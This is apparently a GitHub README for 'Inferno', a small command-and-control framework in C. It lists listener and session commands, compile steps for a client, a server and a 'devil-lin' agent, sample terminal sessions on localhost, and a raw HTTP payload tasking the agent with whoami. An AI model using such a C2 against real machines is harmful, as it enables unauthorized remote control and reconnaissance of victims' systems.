 # Inferno
![Inferno Logo](/assets/images/Inferno.png)

## Note
"Exploring the digital realm through C feels like journeying through the fiery depths of Inferno with nothing but a trusty torch in hand. It's not just coding; it's an adventure, where every line of C unlocks a new door to discovery in the digital underworld."

## Cortex Security (CS) C2
* Client/Server channel over TCP
* Server/Agent channel over HTTP
* Listing HTTP listeners
* Starting HTTP listeners
* Stopping HTTP listeners
* Listing HTTP sessions
* Entering HTTP sessions
* Destroying HTTP sessions
* Switching sessions

## Architecture
![Inferno Architecture](/assets/images/architecture.png)

### Supported commands
| Mode | Command | Example | Description |
| ---  | --- | --- | --- |
| LIST listeners | listeners | / | list actives listeners |
| HTTP listener | http | http 127.0.0.1 80 | Start an HTTP listener |
| STOP listener | stop | stop http 1 | Stop listener HTTP with ID 1 |
| LIST sessions | sessions | / | list actives sessions
| ENTER | enter | enter 1 | Enter inside session with ID 1 |
| DESTROY | kill | kill 1 | Destroy session with ID 1 |

### Supported agent commands
| Mode | Command | Description
| --- | --- | --- |
| WHOAMI | whoami | Get user login |
| HOSTNAME | hostname | Get machine hostname |
| LIST | ls | List files |
| DIRECTORY | pwd | Print current directory
> Some commands can be run with arguments 

## Manual

### Compiling instructions
Navigate to the project directory and run:
```bash
gcc client.c -o client
```
```bash
gcc server.c -o server
```
```bash
gcc devil-lin.c -o devil-lin
```
> More devil-lin with different ports 80, 8080, 8000 etc

### Utilisation instructions
First you will need to start the server
```bash
┌──(asx㉿asx)-[~/Inferno]
└─$ ./server
Initializing socket...
Binding socket to c2 address...
Listening to 127.0.0.1:33333
Accepting...
```
> Starting the server

Once the server is started it will listen on port 33333. Now you can start the client
```bash
┌──(asx㉿asx)-[~/Inferno]
└─$ ./client
[>] Initializing socket...

  _     <-. (`-')_            (`-')  _   (`-') <-. (`-')_                
 (_)       \( OO) )  <-.      ( OO).-/<-.(OO )    \( OO) )     .->       
 ,-(`-'),--./ ,--/(`-')-----.(,------.,------,),--./ ,--/ (`-')----.     
 | ( OO)|   \ |  |(OO|(_\---' |  .---'|   /`. '|   \ |  | ( OO).-.  '    
 |  |  )|  . '|  |)/ |  '--. (|  '--. |  |_.' ||  . '|  |)( _) | |  |    
(|  |_/ |  |\    | \_)  .--'  |  .--' |  .   .'|  |\    |  \|  |)|  |    
 |  |'->|  | \   |  `|  |_)   |  `---.|  |\  \ |  | \   |   '  '-'  '    
 `--'   `--'  `--'   `--'     `------'`--' '--'`--'  `--'    `-----'     

Info: X joined session
[>] Connecting...
[>] Connected

[ASX]@[INFERNO]> 
```
> Starting the client

You will see the connection is accepted. Now you can start an HTTP listener on port 80
```bash
┌──(asx㉿asx)-[~/Inferno]
└─$ ./client
[>] Initializing socket...

  _     <-. (`-')_            (`-')  _   (`-') <-. (`-')_                
 (_)       \( OO) )  <-.      ( OO).-/<-.(OO )    \( OO) )     .->       
 ,-(`-'),--./ ,--/(`-')-----.(,------.,------,),--./ ,--/ (`-')----.     
 | ( OO)|   \ |  |(OO|(_\---' |  .---'|   /`. '|   \ |  | ( OO).-.  '    
 |  |  )|  . '|  |)/ |  '--. (|  '--. |  |_.' ||  . '|  |)( _) | |  |    
(|  |_/ |  |\    | \_)  .--'  |  .--' |  .   .'|  |\    |  \|  |)|  |    
 |  |'->|  | \   |  `|  |_)   |  `---.|  |\  \ |  | \   |   '  '-'  '    
 `--'   `--'  `--'   `--'     `------'`--' '--'`--'  `--'    `-----'     

Info: X joined session
[>] Connecting...
[>] Connected

[ASX]@[INFERNO]> http

[>] Starting listener...
[>] Listening
==============================
 IP: 127.0.0.1                  
==============================
 PORT: 80                
==============================

[>] Waiting for response...
```
> Starting an HTTP listener on port 80

Now the client will wait that an agent is launched. You can launch an agent by the following command:
```bash
┌──(asx㉿asx)-[~/Inferno]
└─$ ./devil 
Initializing socket...
Connecting...
Connected
```
> Starting an agent

Now you can enter session to interact with agent
```bash
[ASX]@[INFERNO]> enter
Entering session...
Sent: ok

[ASX]@[SESSION]> 
```
> Entering the session

Now its time to send commands
```bash
[ASX]@[SESSION]> whoami
[>] Sending payload to server: whoami
[>] Waiting for response...
[>] Result: asx
```
> Task the agent to perform whoami command

You can now exit properly
```bash
[ASX]@[SESSION]> exit
[>] 
Closing c2 and exiting...
```
> Exiting the C2

## Drawbacks
> [!CAUTION]
> Be careful to always having server running before start the client

> [!NOTE]
> Readme not updated to latest

## Infos
> [!TIP]
> You can analyze the content of the payload sent and received
```bash
==========START PAYLOAD==========
Receiving from client:
POST /endpoint HTTP/1.0
Host: inferno.com
Content-Type: application/json
Content-Length: 20
Connection: close

{'payload':'whoami'}
Sending to agent:

POST /endpoint HTTP/1.0
Host: inferno.com
Content-Type: application/json
Content-Length: 20
Connection: close

{'payload':'whoami'}
Received from agent: asx
Sending to client: asx
===========END PAYLOAD===========
```
> Analyzing payload in server message

## End of transmission
